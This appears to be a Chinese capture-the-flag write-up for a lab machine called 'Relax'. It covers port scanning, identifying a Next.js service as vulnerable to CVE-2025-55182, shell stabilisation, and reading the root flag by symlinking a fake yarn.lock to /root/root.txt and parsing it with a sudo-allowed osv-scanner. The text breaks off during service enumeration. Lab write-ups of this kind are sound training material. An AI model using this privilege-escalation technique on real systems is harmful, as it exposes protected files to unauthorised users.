









# Relax


# relax

## 端口扫描

```bash
(base) ┌──(root㉿kali)-[/tmp]
└─# rustscan -a 192.168.56.181 --ulimit 5000 -- -sV -A
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
To scan or not to scan? That is the question.

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.56.181:22
Open 192.168.56.181:3000
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -sV -A" on ip 192.168.56.181
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-07-12 20:47 CST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:47
Completed NSE at 20:47, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:47
Completed NSE at 20:47, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:47
Completed NSE at 20:47, 0.00s elapsed
Initiating ARP Ping Scan at 20:47
Scanning 192.168.56.181 [1 port]
Completed ARP Ping Scan at 20:47, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:47
Completed Parallel DNS resolution of 1 host. at 20:47, 0.07s elapsed
DNS resolution of 1 IPs took 0.07s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 20:47
Scanning 192.168.56.181 [2 ports]
Discovered open port 22/tcp on 192.168.56.181
Discovered open port 3000/tcp on 192.168.56.181
Completed SYN Stealth Scan at 20:47, 0.01s elapsed (2 total ports)
Initiating Service scan at 20:47
Scanning 2 services on 192.168.56.181
Completed Service scan at 20:48, 11.21s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 192.168.56.181
Retrying OS detection (try #2) against 192.168.56.181
NSE: Script scanning 192.168.56.181.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:48
Completed NSE at 20:48, 0.19s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:48
Completed NSE at 20:48, 0.01s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:48
Completed NSE at 20:48, 0.00s elapsed
Nmap scan report for 192.168.56.181
Host is up, received arp-response (0.00063s latency).
Scanned at 2026-07-12 20:47:57 CST for 15s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 10.0p2 Debian 7+deb13u4 (protocol 2.0)
3000/tcp open  ppp?    syn-ack ttl 64
| fingerprint-strings: 
|   DNSVersionBindReqTCP, Help, NCP, RPCCheck: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Vary: rsc, next-router-state-tree, next-router-prefetch, next-router-segment-prefetch, Accept-Encoding
|     x-nextjs-cache: HIT
|     x-nextjs-prerender: 1
|     x-nextjs-prerender: 1
|     x-nextjs-stale-time: 300
|     X-Powered-By: Next.js
|     Cache-Control: s-maxage=31536000
|     ETag: "9z5nlrjp0vaf2"
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 13534
|     Date: Sun, 12 Jul 2026 12:48:07 GMT
|     Connection: close
|     <script src="/_next/static/chunks/664adc71bc2617c2.js" noModule=""></script><meta charSet="utf-8"/><meta name="viewport" content="width=device-width, initial-scale=1"/><link rel="preload" as="script" fetchPriority="low" href="/_next/static/chunks/cbd55ab9639e1e66.js"/><script src="/_next/static/chunks/a4403f826d0efc9f.js" async=""></script><script src="/_next/static/chunks/87a939617be2fa8c.js" async=""></script><script src="/_next/static/chunks/turbopack-9e886ff5105ab694.js" async
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 405 Method Not Allowed
|     vary: rsc, next-router-state-tree, next-router-prefetch, next-router-segment-prefetch
|     Allow: GET
|     Allow: HEAD
|     Date: Sun, 12 Jul 2026 12:48:07 GMT
|     Connection: close
|_    Method Not Allowed
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=7/12%Time=6A538D08%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,1C48,"HTTP/1\.1\x20200\x20OK\r\nVary:\x20rsc,\x20next-route
SF:r-state-tree,\x20next-router-prefetch,\x20next-router-segment-prefetch,
SF:\x20Accept-Encoding\r\nx-nextjs-cache:\x20HIT\r\nx-nextjs-prerender:\x2
SF:01\r\nx-nextjs-prerender:\x201\r\nx-nextjs-stale-time:\x20300\r\nX-Powe
SF:red-By:\x20Next\.js\r\nCache-Control:\x20s-maxage=31536000\r\nETag:\x20
SF:\"9z5nlrjp0vaf2\"\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCo
SF:ntent-Length:\x2013534\r\nDate:\x20Sun,\x2012\x20Jul\x202026\x2012:48:0
SF:7\x20GMT\r\nConnection:\x20close\r\n\r\n<script\x20src=\"/_next/static/
SF:chunks/664adc71bc2617c2\.js\"\x20noModule=\"\"></script><meta\x20charSe
SF:t=\"utf-8\"/><meta\x20name=\"viewport\"\x20content=\"width=device-width
SF:,\x20initial-scale=1\"/><link\x20rel=\"preload\"\x20as=\"script\"\x20fe
SF:tchPriority=\"low\"\x20href=\"/_next/static/chunks/cbd55ab9639e1e66\.js
SF:\"/><script\x20src=\"/_next/static/chunks/a4403f826d0efc9f\.js\"\x20asy
SF:nc=\"\"></script><script\x20src=\"/_next/static/chunks/87a939617be2fa8c
SF:\.js\"\x20async=\"\"></script><script\x20src=\"/_next/static/chunks/tur
SF:bopack-9e886ff5105ab694\.js\"\x20async")%r(Help,2F,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(NCP,2F,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(HTTPOptions
SF:,DD,"HTTP/1\.1\x20405\x20Method\x20Not\x20Allowed\r\nvary:\x20rsc,\x20n
SF:ext-router-state-tree,\x20next-router-prefetch,\x20next-router-segment-
SF:prefetch\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nDate:\x20Sun,\x2012\x20J
SF:ul\x202026\x2012:48:07\x20GMT\r\nConnection:\x20close\r\n\r\nMethod\x20
SF:Not\x20Allowed")%r(RTSPRequest,DD,"HTTP/1\.1\x20405\x20Method\x20Not\x2
SF:0Allowed\r\nvary:\x20rsc,\x20next-router-state-tree,\x20next-router-pre
SF:fetch,\x20next-router-segment-prefetch\r\nAllow:\x20GET\r\nAllow:\x20HE
SF:AD\r\nDate:\x20Sun,\x2012\x20Jul\x202026\x2012:48:07\x20GMT\r\nConnecti
SF:on:\x20close\r\n\r\nMethod\x20Not\x20Allowed")%r(RPCCheck,2F,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersio
SF:nBindReqTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20cl
SF:ose\r\n\r\n");
MAC Address: 08:00:27:22:D4:33 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Android 5.0 - 7.0 (Linux 3.4 - 3.10) (94%), Linux 2.6.32 (94%), Linux 3.2 - 4.9 (94%), Linux 2.6.32 - 3.10 (93%), Linux 4.15 - 5.8 (93%), Linux 5.4 (93%), Linux 5.3 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/12%OT=22%CT=%CU=43598%PV=Y%DS=1%DC=D%G=N%M=080027%TM=6A538D0C%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=10D%TI=Z%CI=Z%TS=22)
SEQ(SP=102%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=22)
OPS(O1=M5B4ST11NW8%O2=M5B4ST11NW8%O3=M5B4NNT11NW8%O4=M5B4ST11NW8%O5=M5B4ST11NW8%O6=M5B4ST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW8%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 0.000 days (since Sun Jul 12 20:48:05 2026)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.63 ms 192.168.56.181

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:48
Completed NSE at 20:48, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:48
Completed NSE at 20:48, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:48
Completed NSE at 20:48, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.51 seconds
           Raw packets sent: 47 (3.672KB) | Rcvd: 31 (2.616KB)
```

## 3000/tcp

访问首页，页面标题是 `Maze Research Platform`，内容基本全是静态说明文字，没发现其他东西。



上面在扫端口的时候发现一下有用的数据 `Vary: rsc, ....`​ ，`X-Powered-By: Next.js` 。然后进一步看一下首页响应头：

```bash
(base) ┌──(root㉿kali)-[/tmp]
└─# curl -i http://192.168.56.181:3000/
HTTP/1.1 200 OK
Vary: rsc, next-router-state-tree, next-router-prefetch, next-router-segment-prefetch, Accept-Encoding
x-nextjs-cache: HIT
x-nextjs-prerender: 1
x-nextjs-prerender: 1
x-nextjs-stale-time: 300
X-Powered-By: Next.js
Cache-Control: s-maxage=31536000
ETag: "9z5nlrjp0vaf2"
Content-Type: text/html; charset=utf-8
Content-Length: 13534
Date: Sun, 12 Jul 2026 13:37:58 GMT
Connection: keep-alive
Keep-Alive: timeout=5

```

这里最关键的是 `Vary: rsc, next-router-state-tree...` 不知道是啥，搜索了一下。这说明站点启用了 Next.js App Router 相关的 RSC 处理逻辑。搜索一下发现应该是  cve-2025-55182



测试一下发现存在此漏洞



反弹 shell

```bash
/usr/bin/script -qc /bin/bash /dev/null
按下 ctrl z
stty raw -echo; fg
export TERM=xterm
export SHELL=/bin/bash
```



```bash
react2shell@relax:~$ cat user.txt
flag{266a1f7c2e2345169d3bc448da45eae6}
react2shell@relax:~$ 
```

## 提权

先看 sudo，发现有个 /root/osv-scanner，一个用 Go 编写的漏洞扫描器

```bash
react2shell@relax:~$ sudo -l
Matching Defaults entries for react2shell on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User react2shell may run the following commands on localhost:
    (root) NOPASSWD: /root/osv-scanner
react2shell@relax:~$ 
```

发现 `osv-scanner`​ 支持 `scan source --lockfile`。这意味着我们可以强制它把某个路径按特定生态的 lockfile 去解析。

```bash
sudo /root/osv-scanner --help
```


最直接的思路就是：

1. 在可写目录里创建一个名字看起来像锁文件的符号链接。
2. 让这个符号链接指向 `/root/root.txt`。
3. 用 root 权限运行 `osv-scanner scan source --lockfile` 去解析它。
4. 观察哪一种解析器最容易把文件第一行原样带进错误信息。

```bash
react2shell@relax:~$ mkdir /tmp/readtest
react2shell@relax:~$ ln -s /root/root.txt /tmp/readtest/yarn.lock
react2shell@relax:~$ sudo /root/osv-scanner scan source --lockfile /tmp/readtest/yarn.lock --offline
Starting filesystem walk for root: /
Failed to determine version of flag{7f791f89aca4f442da5d968f1d01eedb} while parsing a yarn.lock
Scanned /tmp/readtest/yarn.lock file and found 1 package
End status: 0 dirs visited, 1 inodes visited, 1 Extract calls, 1.935793ms elapsed, 1.935856ms wall time
Filtered 1 local/unscannable package/s from the scan.

No issues found
react2shell@relax:~$ 
```

## root  shell

### 方案一

本来想通过 `--output-file` 写入 ssh “公钥” 文件，但是写入的文件不干净，不知道怎么处理了。

然后发现靶机本地

```bash
react2shell@relax:/tmp$ ss -ntlp
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess                                   
LISTEN 0      128          0.0.0.0:22        0.0.0.0:*                                             
LISTEN 0      2048       127.0.0.1:8000      0.0.0.0:*                                             
LISTEN 0      511          0.0.0.0:3000      0.0.0.0:*    users:(("next-server (v1",pid=460,fd=21))
LISTEN 0      128             [::]:22           [::]:*                                             
react2shell@relax:/tmp$ 
```

然后查看一下 8000 端口相关的进程

```bash
react2shell@relax:/tmp$ ps aux | grep 8000
root         388  0.1  2.4 159968 49820 ?        Ssl  11:53   0:03 /usr/bin/python3 -m uvicorn app:app --host 127.0.0.1 --port 8000
react2s+    2401  0.0  0.1   6528  2288 pts/2    S+   12:38   0:00 grep 8000
react2shell@relax:/tmp$ 
```

这里说明：

- 服务是 `uvicorn`
- 加载的是 `app:app`

这里的 `app:app` 在 Python/FastAPI 里通常表示：

- 模块名叫 `app`
- 模块里有个变量也叫 `app`

也就是大概率存在一个 `app.py`，然后继续反查它属于哪个 systemd 服务，可以发现两个可疑的服务

- bbb.service
- bbb.service

```bash
react2shell@relax:/tmp$ ls -l --time-style=long-iso /etc/systemd/system/ | sort -k 6,7
total 68
drwxr-xr-x 2 root root 4096 2026-04-25 06:17 getty.target.wants
drwxr-xr-x 2 root root 4096 2026-04-25 06:17 timers.target.wants
drwxr-xr-x 2 root root 4096 2026-04-25 06:18 network-online.target.wants
drwxr-xr-x 2 root root 4096 2026-04-25 06:20 hibernate.target.wants
drwxr-xr-x 2 root root 4096 2026-04-25 06:20 hybrid-sleep.target.wants
drwxr-xr-x 2 root root 4096 2026-04-25 06:20 suspend.target.wants
drwxr-xr-x 2 root root 4096 2026-04-25 06:20 suspend-then-hibernate.target.wants
drwxr-xr-x 2 root root 4096 2026-04-25 06:20 sysinit.target.wants
lrwxrwxrwx 1 root root   49 2026-04-25 06:20 dbus-org.freedesktop.timesync1.service -> /usr/lib/systemd/system/systemd-timesyncd.service
drwxr-xr-x 2 root root 4096 2026-04-25 06:41 sshd.service.wants
drwxr-xr-x 2 root root 4096 2026-04-25 06:41 sshd@.service.wants
drwxr-xr-x 2 root root 4096 2026-04-25 06:41 ssh.service.wants
drwxr-xr-x 2 root root 4096 2026-04-25 06:41 ssh.socket.wants
lrwxrwxrwx 1 root root   35 2026-04-25 06:41 sshd.service -> /usr/lib/systemd/system/ssh.service
drwxr-xr-x 2 root root 4096 2026-05-21 08:45 getty@tty1.service.d
-rw-r--r-- 1 root root  201 2026-06-21 23:47 dhcpcd.service
drwxr-xr-x 2 root root 4096 2026-06-21 23:49 multi-user.target.wants
-rw-r--r-- 1 root root  318 2026-06-21 23:50 bbb.service
-rw-r--r-- 1 root root  346 2026-06-21 23:52 bbb.service
react2shell@relax:/tmp$ 
```



```bash
react2shell@relax:/tmp$ systemctl list-units --type=service --all
  UNIT                                        LOAD      ACTIVE   SUB     DESCRI>
  aaa.service                                 loaded    active   running React2>
● apparmor.service                            not-found inactive dead    apparm>
  apt-daily-upgrade.service                   loaded    inactive dead    Daily >
  apt-daily.service                           loaded    inactive dead    Daily >
● auditd.service                              not-found inactive dead    auditd>
● badhost-lab.service                         not-found inactive dead    badhos>
  bbb.service                                 loaded    active   running AI Inf>
● connman.service                             not-found inactive dead    connma>
● console-screen.service                      not-found inactive dead    consol>
  console-setup.service                       loaded    active   exited  Set co>
  cron.service                                loaded    active   running Regula>
  dbus.service                                loaded    active   running D-Bus >
  dhcpcd.service                              loaded    active   running dhcpcd>
● display-manager.service                     not-found inactive dead    displa>
```



先看看 bbb.service

```
systemctl status bbb.service
systemctl cat bbb.service
```

```bash
